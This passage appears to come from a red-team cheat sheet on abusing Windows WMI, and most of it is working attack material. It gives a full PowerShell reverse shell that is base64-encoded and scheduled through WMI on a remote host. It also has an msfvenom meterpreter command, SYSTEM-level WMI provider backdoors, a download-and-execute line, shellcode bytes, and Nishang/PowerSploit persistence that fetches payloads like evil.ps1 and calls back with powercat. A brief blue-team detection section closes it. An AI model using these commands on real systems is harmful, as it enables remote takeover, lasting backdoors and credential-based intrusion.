$Shell = '$client = New-Object System.Net.Sockets.TCPClient("' + $ip + '",' + $port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$EncodedShell =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))

# You can also use msfvenom to generate the base64-encoded reverse shell
msfvenom –payload windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=8080 –format psh –smallest | msfvenom –payload – –platform win –arch x86 –encoder base64 NOEXIT SYSWOW64

# Execute the process at 7:52pm 
$wmi_sched_job = [wmiclass]"\\$env:computername\root\cimv2:win32_scheduledjob"
$time = $wmi_sched_job.ConvertFromDateTime("7:52pm")
$task = "c:\Windows\System32\cmd.exe /c powershell -e $EncodedShell"
(Get-WmiObject -List win32_scheduledjob -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator").Create($task,$time)
```

### Backdoors - Custom WMI Provider

WMI procides ample opportunities to backdoor a machine.

[Win32_LocalAdmins](https://github.com/rzander/LocalAdmins) provider creates a class called Win32_LocalAdmins in the `root\cimv2` namespace which can be used to list all local administrators.

[Evil Network Connection WMI Provider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider) provides ability to execute Powershell command with SYSTEM privileges. It needs elevated privileges to be installed. Powershell.exe in not used to execute the payload.

```powershell
# Install Provider
cd <downloadpath>\EvilNetConnectionWMIProvider-master\EvilNetConnectionWMIProvider\bin\Debug
.\InstallUtil.exe /i EvilNetConnectionWMIProvider.dll

# Uninstall Provider
cd <downloadpath>\EvilNetConnectionWMIProvider-master\EvilNetConnectionWMIProvider\bin\Debug
Uninstall "InstallUtil.exe /u EvilNetConnectionWMIProvider.dll"

# Query network connections (netstat)
Get-WMIObject Win32_NetConnection | select LocalAddress, LocalPort, RemoteAddress, RemotePort, Protocol, State | ft -AutoSize

# Execute arbitrary Powershell ss SYSTEM
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "whoami", $NULL
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "Get-Process", $NULL
```

Of course, these methods can be invoked from a remote box using `-ComputerName` and `-Credential` parameters, but we still need admin privs on the target box.

```powershell
# Query network connections (netstat)
Get-WMIObject Win32_NetConnection -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" | select LocalAddress, LocalPort, RemoteAddress, RemotePort, Protocol, State | ft -AutoSize

# Execute arbitrary Powershell as SYSTEM 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "whoami", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "Get-Process", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "powershell -e $EncodedShell", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 

# Execute a Powershell script as SYSTEM 
Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.2/script.ps1')", $NULL -ComputerName "COMPUTER01" -Credential "CYBERLAB\Administrator" 
```

[Evil WMI Provider](https://gist.github.com/TheWover/4272ea5829d7f6b22fadaeb8aee3229a) can be used to launch custom shellcode on a target box:

```powershell
Invoke-WmiMethod -Class Win32_Evil -Name ExecShellcode -ArgumentList @(0x90,0x90,0x90), $NULL
Invoke-WmiMethod -Namespace root\cimv2 -Class Win32_Evil -Name ExecShellCalcCode -ArgumentList $null

[byte[]]$sc =  @(0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x00 )
Invoke-WmiMethod -Namespace root\cimv2 -Class Win32_Evil -Name ExecShellCode -ArgumentList $sc, $null -ComputerName "COMPUTER01" -Credential "CYEBRLAB\Administrator"
```

### Persistence - WMI Events

WMI has an event infrastructure which provides the capability of receveing notifications and respond changes happening on a system. For example, an event can be triggered on user logon, process creation, registry change, file creation or change and so on. It is possible to create both synchronous or asynchronous queries in order to constanly monitor the system.

An **event consumer** (used to consume event) can be:

- **Temporary**: Receives event notifications as long as the client application/host is active
- **Permanent**: Receives event notifications at all times (even across reboots), it is saved in the WMI repository and runs as SYSTEM.

*Permanent event consumers* are the most interesting and are characterized by:

- **Filter**: The event which occurs
- **Consumer**: The action to be performed when the event occurs
- **Binding**: The established relationship between Filter and Consumer

There are 2 types of WMI events:

- **Intrinsic**: Events which are triggered on a change (creation, modification or deletion) in the standard WMI model. Intrinsic events are system classes included in every namespace. There is a polling time for most of them and it is possible to miss event firings. For example, the creation of a new instance of Win32_LogicalDisk is an __InstanceCreationEvent type.

	- __NamespaceOperationEvent 
	- __NamespaceModificationEvent 
	- __NamespaceDeletionEvent 
	- __NamespaceCreationEvent 
	- __ClassOperationEvent 
	- __ClassDeletionEvent 
	- __ClassModificationEvent
	- __ClassCreationEvent 
	- __InstanceOperationEvent 
	- __InstanceCreationEvent 
	- __MethodInvocationEvent 
	- __InstanceModificationEvent 
	- __InstanceDeletionEvent 
	- __TimerEvent 


- **Extrinsic**: A predefined occurence that cannot be directly linked to changes in the WMI model. These events are defined by the providers themselves. They do not have as much coverage as intrinsic events. There is no chance of missing them. For example, a computer shutdown event.

	- ROOT\\CIMV2:Win32_ComputerShutdownEvent 
	- ROOT\\CIMV2:Win32_IP4RouteTableEvent 
	- ROOT\\CIMV2:Win32_ProcessStartTrace 
	- ROOT\\CIMV2:Win32_ModuleLoadTrace 
	- ROOT\\CIMV2:Win32_ThreadStartTrace 
	- ROOT\\CIMV2:Win32_VolumeChangeEvent 
	- ROOT\\CIMV2:Msft_WmiProvider* 
	- ROOT\\DEFAULT:RegistryKeyChangeEvent 
	- ROOT\\DEFAULT:RegistryValueChangeEvent

**Filters** represent the definition of the event to trigger and take the form of a WMI query:
- **Intrinsic query**
```powershell
SELECT * FROM __InstanceOperationEvent WITHIN 30 WHERE ((__CLASS = "__InstanceCreationEvent" OR __CLASS = "__InstanceModificationEvent") AND TargetInstance ISA "CIM_DataFile") AND (TargetInstance.Extension = "doc") OR (TargetInstance.Extension = "docx") 
```

- **Extrinsic query**
```powershell
SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2 
```

These are the standard event **consumers**:

| Class | Description |
| --- | --- |
| **ActiveScriptEventConsumer** | Executes a predefined VBScript or Jscript |
| **CommandLineEventConsumer** | Launches a process with SYSTEM privileges |
| LogFileEventConsumer | Write data to a log file |
| NTEventLogEventConsumer | Logs a message to the Windows event log |
| SMTPEventConsumer | Sends an email using SMTP |

and are present in the following namespaces: 

- ROOT\\CIMV2 
- ROOT\\DEFAULT

Events can be exploited to add persistence to a box by using `Add-Persistence.ps1` from `Nishang`:

```powershell
# Nishang
# It is convenient to setup a persistent listener
. .\powercat.ps1
powercat -l -v -p 8080 -t 1000 -rep

# Utility/Add-Persistence.ps1
. .\Add-Persistence.ps1

# Drop the reverse shell PowerShell script and WindowsSanity.vbs on the target box. The VBscript file and thus the PowerShell payload will be executed on every reboot. Please note that C:\test\Invoke-PowerShellTcpOneLine.ps1 is the path on the target machine.
Add-Persistence -PayloadPath C:\test\Invoke-PowerShellTcpOneLine.ps1

# Use the above to download and execute in memory the evil.ps1 script everytime the target machine reboots.
Add-Persistence -PayloadURL http://yourwebserver/evil.ps1 

# The backdoor will be activated after 4 minutes of system uptime

# Utility/Remove-Persistence.ps1
. .\Remove-Persistence.ps1
Remove-Persistence -Remove
```

The same result can be achieved by `Persistence.psm1` from `PowerSploit`:

```powershell
# PowerSploit
Import-Module Persistence.psm1 -Verbose
Get-Command -Module Persistence

# Creates a script containing the contents of EvilPayload.ps1 that when executed with the '-Persist' switch will persist the payload using its respective persistence mechanism (user-mode vs. elevated) determined at runtime.
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose

# Creates a script containing the contents of the provided scriptblock that when executed with the '-Persist' switch will persist the payload using its respective persistence mechanism (user-mode vs. elevated) determined at runtime. The output is then passed through to Out-EncodedCommand so that it can be executed in a single command line statement. The final, encoded output is finally saved to .\EncodedPersistentScript.ps1
$Rickroll = { iex (iwr https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1); powercat -c ws01 -p 8081 }
$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle
Add-Persistence -ScriptBlock $RickRoll -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1
```

by `WMIBackdoor.ps1`:

```powershell
# Select the trigger
$trigger = New-WMIBackdoorTrigger -TimingInterval <uint32> [-TimerName <string>] [-TriggerName <string>]
$trigger = New-WMIBackdoorTrigger -Datetime <datetime> 
$trigger = New-WMIBackdoorTrigger -ProcessName <string>  
$trigger = New-WMIBackdoorTrigger -NewOrModifiedFileExtensions <string[]> 
$trigger = New-WMIBackdoorTrigger –LockedScreen 
$trigger = New-WMIBackdoorTrigger –InteractiveLogon 
$trigger = New-WMIBackdoorTrigger –DriveInsertion

# Select the action
$action = New-WMIBackdoorAction -C2Uri <uri> -FileUpload 
$action = New-WMIBackdoorAction -C2Uri <uri> -Backdoor 
$action = New-WMIBackdoorAction -KillProcess 
$action = New-WMIBackdoorAction -InfectDriv

# Register the backdoor
Register-WMIBackdoor -Trigger $trigger -Action $action [[-ComputerName] <string>]
```

or even by compiling MOF files:

```powershell
# Compile a MOF file on the local machine
mofcomp.exe c:\users\administrator\test.mof

# Compile a MOF file on a remote machine (need privs)
mofcomp.exe -N \\COMPUTER01\root\subscription c:\users\administrator\test.mof

```

### Persistence - WMI Security Descriptors

It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of DCOM and WMI namespace to allow access to non-admin users. It obviousely requires admin privileges. 

[Security Descriptor Definition Language](https://itconnect.uw.edu/wares/msinf/other-help/understanding-sddl-syntax/) uses ACE for both DACL and SACL:

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```
which for built-in administrators for WMI namespaces becomes:

```
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

| Field | Example |
| --- | --- |
| ace_type | "A" - Access Allowed | 
| ace_flags | "CI" - Container Inherit |
| rights | "CC" - Create Child<br>"DC" - Delete Child<br>"LC" - List Children<br>"SW" - Self Write<br>"RP" - Read Property<br>"WP" - Write Property<br>"RC" - Read Control<br>"WD" - Write DAC|
| account_sid | SID that identifies the trustee (user, group, ...) on which the ACE applies |

`Nishang` script `Set-RemoteWMI.ps1` can be used to modify Security Descriptors of DCOM and WMI namespaces to provide non-admin domain users access to WMI:

```powershell
# Nishang
# backdoor/Set-RemoteWMI.ps1

# Add permissions on the local machine for labuser to access all namespaces remotely.
Set-RemoteWMI -UserName labuser –Verbose

# Add permissions on the remote machine for labuser to access all namespaces remotely.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin -Verbose

# Add permissions on the remote machine for labuser to access root\cimv2 and nested namespaces remotely.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin –namespace 'root\cimv2' -Verbose

# Add permissions on the remote machine for labuser to access only root\cimv2 remotely.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin –namespace 'root\cimv2' -NotAllNamespaces -Verbose

# Remove the permissions added for labuser from the remote machine.
Set-RemoteWMI -UserName labuser -ComputerName 192.168.0.34 -Credential admin -Remove -Verbose
```

### Red Team Tools

- [PowerProvider](https://github.com/0xbadjuju/PowerProvider)
- [WheresMyImplant](https://github.com/0xbadjuju/WheresMyImplant)
- [PowerLurk](https://github.com/Sw4mpf0x/PowerLurk)
- [WMIImplant](https://github.com/FortyNorthSecurity/WMImplant)

## WMI for Blue Teams

### Detecting persistence
To detect persistence, common Filters, Consumer and Binding can be manually analyzed or a "detection" permanent event consumer can be created.
```powershell
Get-WmiObject __EventFilter -namespace "root\subscription"
Get-WmiObject __EventConsumer -namespace "root\subscription"
Get-WmiObject __FilterToConsumerBinding -namespace "root\subscription"
Get-WmiObject ActiveScriptEventConsumer -namespace "root\subscription"
Get-WmiObject CommandLineEventConsumer -namespace "root\subscription
```

Use WMI permanent event consumer to alert on:

- Registry persistence
- RegistryKeyChangeEvent
- RegistryValueChangeEvent

```powershell
$query = "select * from RegistryValueChangeEvent where HIVE='HKEY_LOCAL_MACHINE' AND KeyPath='Software\\Microsoft\\Ole' AND ValueName='MachineLaunchRestriction'"

Register-WmiEvent -Query $query -Action {Write-Host "Modification of DCOM Permissions"}
```

### Detecting storage and communication channels
Use WMI permanent event consumer to alert on the creation of:

- **Namespaces**: instances of __NamespaceCreationEvent
- **Classes**: instances of __ClassCreationEvent

### Analyzing WMI Logs

- **Service Logs**: Windows 10 and Windows Server 2016 raise **Event ID 5861** in WMI-Activity Operational Logs when a permanent event consumer is created
- **Trace Logs**: Huge volume, but very useful. **Event ID 11** tells the username, command and remote box from someone connected to the local box and combined to **Event ID 20** is useful for detecting persistence. 

### Blue Team Tools

The following tools can be used for Blue Teams:

- [WMIMon](https://github.com/luctalpe/WMIMon) is a real-time Event Trace Log (ETL) consumer for WMI-Activity log
- [WMI_Monitor](https://github.com/realparisi/WMI_Monitor) uses WMI permanent consumers to monitor the creation of other consumers. `New-EventSubscribeMonitor` creates an entry with **Event ID 8** in Application Event Log with source WSH.
- [PoshEventUI](https://github.com/proxb/PoshEventUI)
- [CIMSweep](https://github.com/PowerShellMafia/CimSweep) performs incident response and hunting operations on scale by leveraging WMI/CIM.
- [WMI-IDS](https://github.com/fireeye/flare-wmi/tree/master/WMI-IDS) is a PoC agent-less host intrusion detection system. It is useful for detecting persistence mechanisms and raise alerts based on triggers.
- [Kansa](https://github.com/davehull/Kansa)

## Tools
- [Get-WmiNamespace.ps1](https://gallery.technet.microsoft.com/scriptcenter/890ff802-9db2-4d25-aa13-4a2b22fe5db3)
- [Win32_LocalAdmins](https://github.com/rzander/LocalAdmins)
- [Evil NEtwork Connection WMI Provider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider)
- [PowerProvider](https://github.com/0xbadjuju/PowerProvider)
- [WheresMyImplant](https://github.com/0xbadjuju/WheresMyImplant)
- [PowerLurk](https://github.com/Sw4mpf0x/PowerLurk)
- [WMIImplant](https://github.com/FortyNorthSecurity/WMImplant)
- [WMIMon](https://github.com/luctalpe/WMIMon)
- [PoshEventUI](https://github.com/proxb/PoshEventUI)
- [CIMSweep](https://github.com/PowerShellMafia/CimSweep)
- [WMI-IDS](https://github.com/fireeye/flare-wmi/tree/master/WMI-IDS)
- [Kansa](https://github.com/davehull/Kansa)


## References
- [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)
- [Win32_Service](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-service)
- [Win32_Process](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-process)
- [Win32_ScheduledJob](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/create-method-in-class-win32-scheduledjob)
- [Win32_LocalAdmins](https://github.com/rzander/LocalAdmins)
- [Understanding SDDL Syntax](https://itconnect.uw.edu/wares/msinf/other-help/understanding-sddl-syntax/)
- [DEF CON 23 slides and demo videos](https://github.com/fireeye/flare-wmi/tree/master/DEFCON_23_Presentation)
- [Abusing Windows Management Instrumentation (WMI) to Build a Persistent, Asyncronous, and Fileless Backdoor](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
- [There's something about WMI](https://cansecwest.com/slides/2015/There's%20Something%20about%20WMI%20-%20Chris%20Glyer.pptx)
- [Building better backdoors with WMI](https://www.slideshare.net/AlexanderLeary/building-better-backdoors-with-wmi-derbycon-2017)